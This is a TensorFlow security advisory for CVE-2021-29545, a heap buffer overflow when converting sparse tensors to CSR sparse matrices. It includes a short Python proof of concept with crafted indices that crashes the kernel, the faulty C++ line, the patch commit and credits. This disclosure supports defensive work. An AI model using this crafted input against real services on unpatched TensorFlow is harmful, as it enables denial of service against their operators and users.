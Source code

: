 ## TFSA-2021-033: Heap buffer overflow in `SparseTensorToCSRSparseMatrix`

### CVE Number
CVE-2021-29545

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
converting sparse tensors to CSR Sparse matrices:

```python
import tensorflow as tf
import numpy as np
from tensorflow.python.ops.linalg.sparse import sparse_csr_matrix_ops

indices_array = np.array([[0, 0]])
value_array = np.array([0.0], dtype=np.float32)
dense_shape = [0, 0]

st = tf.SparseTensor(indices_array, value_array, dense_shape)

values_tensor = sparse_csr_matrix_ops.sparse_tensor_to_csr_sparse_matrix(
       st.indices, st.values, st.dense_shape)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/800346f2c03a27e182dd4fba48295f65e7790739/tensorflow/core/kernels/sparse/kernels.cc#L66)
does a double redirection to access an element of an array allocated on the
heap:

```cc
csr_row_ptr(indices(i, 0) + 1) += 1;
```

If the value at `indices(i, 0)` is such that `indices(i, 0) + 1` is outside the
bounds of `csr_row_ptr`, this results in writing outside of bounds of heap
allocated data.

### Patches
We have patched the issue in GitHub commit
[1e922ccdf6bf46a3a52641f99fd47d54c1decd13](https://github.com/tensorflow/tensorflow/commit/1e922ccdf6bf46a3a52641f99fd47d54c1decd13).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
